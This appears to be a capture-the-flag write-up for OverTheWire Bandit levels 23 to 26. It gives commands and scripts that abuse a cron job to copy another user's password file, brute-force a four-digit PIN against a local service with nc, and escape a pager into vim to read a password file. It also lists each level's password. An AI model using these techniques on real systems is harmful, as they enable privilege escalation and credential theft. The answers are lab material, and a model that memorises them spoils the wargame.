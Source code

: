 #=== level 23 -> 24 ===#
```
cd /etc/cron.d
cat cronjob_bandit24
cd /var/spool/bandit24
touch t.sh
nano t.sh
```

	--- t.sh
	```
	#!/bin/bash
	cat /etc/bandit_pass/bandit24 > /tmp/tmp_pass
	```

	```
	cat /tmp/tmp_pass
	```
	
**password:**  
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

#=== level 24 -> 25 ===#
```
cd /tmp
touch t.sh
nano t.sh
```

	--- t.sh
	```
	touch pin.txt
	cp /dev/null pin.txt
	for i in {0..9}{0..9}{0..9}{0..9}
	do
		    echo $(cat /etc/bandit_pass/bandit24) $i >> pin.txt
	done
	```

	```
	cat pin.txt | nc localhost 30002 > answer.txt
	cat answer.txt
	```

**password:**  
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

#=== level 25 -> 26 ===#
```
ssh -i bandit26.sshkey bandit26@localhost
v # Open vim from more
:e /etc/bandit_pass/bandit26 # open password
```
**password:**  
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
